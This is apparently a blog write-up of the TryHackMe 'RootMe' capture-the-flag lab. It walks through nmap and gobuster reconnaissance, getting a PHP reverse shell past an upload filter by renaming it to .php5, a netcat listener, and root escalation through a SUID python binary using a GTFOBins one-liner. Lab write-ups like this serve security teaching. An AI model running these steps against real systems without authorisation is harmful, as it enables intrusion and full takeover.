 +++
title = 'Root Me - CTF'
date = 2021-02-12
draft = false
url = "/blog/"
tags = ["writeup","CTF"]
+++

# Try Hack Me - RootMe
A ctf for beginners, can you root me?
<br>
## Objective:
---
## Reconnaissance
1. Scan the machine, how many ports are open?
	Here is the nmap scann commands that I am going to be using.
	```
	nmap -sC -sV -T4 -A -oN nmap/result <IP>
	```
	Breakdown:
	```
	-A: do an extensive scan on these ports

	-sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

	-oN: Normal output to the file normal.file
	```
2. What version of Apache is running?
		Let's review out nmap scans and see if we are able to find what version of Apache we are running.
	```
	Host is up (0.14s latency).
	Not shown: 998 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
	|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
	|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	|_http-title: HackIT - Home
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```

3. What service is running on port 22?
	If you review the resutls fo the nmap scan you will see that there is a service running on port 22.
 4. Find directories on the web server using the GoBuster tool.
 	We are going to run the following gobuster command to search for the hidden directory that they want us to find.
	 ```
	 gobuster dir -t 40 -u <IP> -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	 ```
	 Breakdown:
	 ```
	-u: Full URL (including scheme), or base domain name.

	-t: Thread Usage, declare how mand thread you would like gobuster to use. (Default is 10)

	-w: Path to the wordlist used for brute forcing (use – for stdin)
	```

 5. What is the hidden directory?
	 Do any of these directiores stand out!
	 ```
	 ===============================================================
	Gobuster v3.0.1
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://<IP>/
	[+] Threads:        40
	[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2021/02/11 19:14:32 Starting gobuster
	===============================================================
	/uploads (Status: 301)
	/css (Status: 301)
	/js (Status: 301)
	/panel (Status: 301)
	Progress: 23943 / 220561 (10.86%)^C
	[!] Keyboard interrupt detected, terminating.
	===============================================================
	2021/02/11 19:15:44 Finished
	===============================================================

	 ```
---
## Getting a shell
1. Find a form to upload and get a reverse shell, and find the flag.
	In out last question we found a hidden directory.
	Let's open up our browser and got the following `http:\\<IP>\uploads`
{{< figure src="/img/rootme/1.png" width="200">}}
	Now lets try and upload a php reverse shell.  
	[Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a great resourse for us to use.
	Now that we have our reverse shell let's add the ip address of our device into it and pick out a port we want to listen in on.
	Ok, lets try and upload our reverse shell... It looks like are now able to upload our file.
{{< figure src="/img/rootme/2.png" width="200">}}
	How about we change the extention from PHP to PHP5 and then try again.
	How about them apples, it uploaded. 
	Before we try and excute our payload lets set up a netcat listener.
	`nc -nlvp <port#>`
	Once our listener has been set up lets pull the trigger on our reverse shell and see if a connection can be made.
{{< figure src="/img/rootme/3.png" width="200">}}
BOOM!! We have a connection.
The next thing we need to do is find the user.txt file.
I tried looking in all the stander places like the current user directory and in the home directory but I did not have any luck.
So I decided to use the find command `find / -type f -name user.txt 2> /dev/null`
With this command I was able to locate where our user.txt file is. 
Now all we need to do is cat out the content of our user.txt file and we will have our flag.  

Breakdown:
```
* -type f – you are telling find to look exclusively for files
* -name user.txt – instructing the find command to search for a file with the name “user.txt”
* 2> /dev/null – so error messages do not show up as part of the search result 
```


## Privilege escalation
---
1. Search for files with SUID permission, which file is weird?
	Again here we are going to be using the `find` command to help us locate our file with a weird SUID permission.
```
find / -type f -user root -perm -u=s 2> /dev/null_**
```
Now how can use leverage this what we have found to escalate out privileges to a root shell.
[GTFO Bins](https://gtfobins.github.io/gtfobins/python/#suid) is another great resourse that we can use. 
Let's head over there and look up the SUID for python.
It seems that we are that we are able to use the code below to gain a root shell.
````
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
````
2. root.txt
	One we have verified that we are actually running as root we will just need to cat out the content of out root.txt file.
`cat /root/root.txt`

# Congratulations you have just completed the RootMe challenge from TryHackMe!
